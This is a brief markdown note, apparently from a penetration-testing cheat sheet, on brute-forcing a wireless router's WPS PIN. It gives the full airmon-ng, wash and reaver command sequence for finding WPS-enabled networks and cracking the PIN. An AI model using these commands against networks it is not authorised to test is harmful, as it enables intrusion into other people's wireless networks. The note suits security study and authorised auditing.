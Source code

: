 # WPS

> WPS can be attacked using a brute-force on the PIN (has only about 11,000 valid combinations).

1. Set Wireless adapted to monitor mode.

```bash
airmon-ng start wlan0
```

2. Run a tool to identicate candidate WPS enabled networks (note the BSSID and channel).

```bash
wash -i wlan0mon
```

3. Use reaver to crack the PIN (care with lockdowns).

```bash
reaver -i wlan0mon -b $BSSID -c $CHANNELNUM -vv
```

Reaver is smart enough to remember where it was, and will ask you if you want to resume an interrupted session. So the cracking can be done in a number of sessions.
